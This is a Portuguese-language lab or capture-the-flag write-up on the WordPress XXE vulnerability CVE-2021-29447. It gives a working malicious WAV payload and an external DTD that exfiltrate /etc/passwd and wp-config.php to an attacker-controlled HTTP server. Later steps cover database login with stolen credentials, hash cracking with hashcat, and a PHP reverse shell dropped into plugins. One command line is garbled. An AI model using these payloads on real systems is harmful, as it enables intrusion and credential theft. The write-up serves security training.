


# _**Wordpress: CVE-2021-29447**_


# Informativo
_Uma vulnerabilidade XXE consiste em uma injeção que se aproveita da configuração incorreta do interpretador XML_
_Isso nos permite incluir entidades externas, possibilitando o ataque a aplicações que interpretam a linguagem XML em seus parâmetros_  
_Pesquisadores da empresa de segurança SonarSource descobriram uma falha de segurança de injeção de entidade externa XML (XXE) na biblioteca de mídia do WordPress_  
_A vulnerabilidade pode ser explorada somente quando este CMS roda em PHP 8 e o usuário atacante tem permissão para carregar arquivos de mídia_  

# Impacto
<mark>Divulgação arbitrária de arquivos:</mark> O conteúdo de qualquer arquivo no sistema de arquivos do host pode ser recuperado, por exemplo, wp-config.php que contém dados confidenciais, como credenciais de banco de dados  
<mark>Falsificação de solicitação do lado do servidor (SSRF):</mark> Solicitações HTTP podem ser feitas em nome da instalação do WordPress  

# Arquivo malicioso WAV
Com seu console _bash_, digite
> bash
> nano poc.wav echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[ip_address]:[port]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
> ```

Na sua máquina de ataque, crie um arquivo dtd com o seguinte código. Isso nos permitirá executar o código seguindo o servidor web que busca o arquivo dtd  
Certifique-se de que o nome deste arquivo corresponde ao que você inseriu no arquivo _.wav_ para **NAMEEVIL.dtd**  
> ```bash
> <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://[ip_address]:[port]/?p=%file;'>" >
> ```

Agora inicie um servidor http no mesmo diretório do arquivo dtd: ```php -S [ip_address]:[port]```  
Agora carregue o _.wav_ malicioso no aplicativo WordPress!  
Depois de carregar o arquivo _.wav_, você deverá ver uma solicitação nos logs do seu servidor HTTP  

## _**Parte prática**_
Vamos utilizar a ferramenta <mark>wpscan</mark> para enumerar  
> ```bash
> wpscan --url [ip_address] -U -e vp vt
> ```


Seguindo as instruções, realizamos login no website  
Vamos para _/wp_admin/upload.php_ realizar _upload_ de nosso _payload_ _.wav_  
Primeiro, ligamos nosso servidor HTTP com Python: ```python3 -m http.server [port]```  
O exemplo diz para utilizar ```php```, mas é mais rápido com este  
Segundo, nossos arquivos estão prontos, realizamos _upload_ e temos resultado  


Utilizando [cyberchef](https://cyberchef.io/) para traduzir o conteúdo, temos o arquivo _/etc/passwd_  
Note que para a tradução, é preciso incluir _raw inflate_, senão o resultado será diferente  


Para obtermos o arquivo de configuração, vamos alterar nosso arquivo _script.dtd_ para obtermos _//var/www/html/wp-config.php_  



Nesta tradução, conseguimos as respotas para:
* _Based on the results of #1, what is the name of the database for WordPress?_
* _Based on the results of #1, what are the credentials you found?_
* _Enumerate and identify what is the dbms installed on the server?_

Um rápido scan com ```nmap -p- -sV --open [ip_address]``` e temos:
* _Based on the results of #4, what port is the dbms running on?_
* _Based on the results of #4, what is the dbms version installed on the server?_

Realizando login via ```mysql -h [ip_address] -u [username] -p --skip-ssl```, conseguimos responder:
* _Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??_
* _Based on the results of #7, What is the password in plaint text?_
* _Compromise the machine and locate flag.txt_

Para a primeira, é necessário identificar a hash com <mark>hash-identifier</mark>  
Para a segunda, é preciso quebrar a hash identificada. Vamos utilizar <mark>hashcat</mark>: ```hashcat -m 400 [hash] [wordlist]```  
Para a terceira, vamos realizar login como ```corp-001``` e então podemos usar um script em PHP do _pentest monkey_ para obter um _reverse shell_ direto em plugins  


